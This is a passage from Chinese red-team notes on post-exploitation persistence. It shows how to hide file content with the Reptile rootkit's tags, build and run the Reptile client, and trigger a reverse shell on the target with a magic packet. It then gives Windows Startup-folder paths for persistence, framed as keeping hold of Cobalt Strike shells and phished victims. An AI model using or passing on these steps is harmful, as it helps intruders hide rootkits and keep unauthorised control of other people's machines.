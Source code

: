         

文件内容篡改-
标签之间的所有内容将被隐藏

    #<reptile>
    content to hide
    #</reptile>
    
        

**攻击机连接后门**

攻击机安装运行控制端

    apt install libreadline-dev
    git clone https://github.com/f0rb1dd3n/Reptile.git
    cd Reptile
    make client
    cd output
    ./client
    
        

使用攻击机的特定端口（666）给目标机任意端口发送特定数据（hax0r）-
当目标机接收到这个数据后，按照配置反弹 shell（2333）-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004221754357.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cs%2560%25E5%259C%25A8%25E8%25BF%2599%25E9%2587%258C%25E6%258F%2592%25E5%2585%25A5%25E4%25BB%25A3%25E7%25A0%2581%25E7%2589%2587%2560hadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
参考文章：`https://cloud.tencent.com/developer/article/1666643`

* * *

#### 7.1.2 Windows

**0x00 前言&场景**

在红队中对于拿到的shell或钓上来的鱼，目前比较流行用CS做统一管理，但实战中发现CS官方没有集成一键权限维持的功能，收集的一些第三方开发的插件也大多不完善或者使用很麻烦，甚至有一些还有BUG导致我们以为成功了实际上却没有，最终丢掉了shell。-
故基于此场景整理Windows环境中的持久化方法，后续将一些比较常用且便捷的操作整合成CS插件，确保在拿到shell的时候快速保住权限。

**0x01 Startup目录**

权限要求：提权不提权都可。-
这是最常用也是最简单的权限维持了，放在该目录下的程序或快捷方式会在用户登录时自动运行，就不多说了。-
NT6以后的目录如下：

    对当前用户有效：
    C:\Users\Username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
    对所有用户有效：
    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
    
        

NT6以前的目录如下：

    对当前用户有效：
    C:\Documents and Settings\Hunter\「开始」菜单\程序\启动
    对所有用户有效：
    C:\Documents and Settings\All Users\「开始」菜单\程序\启动
    
        
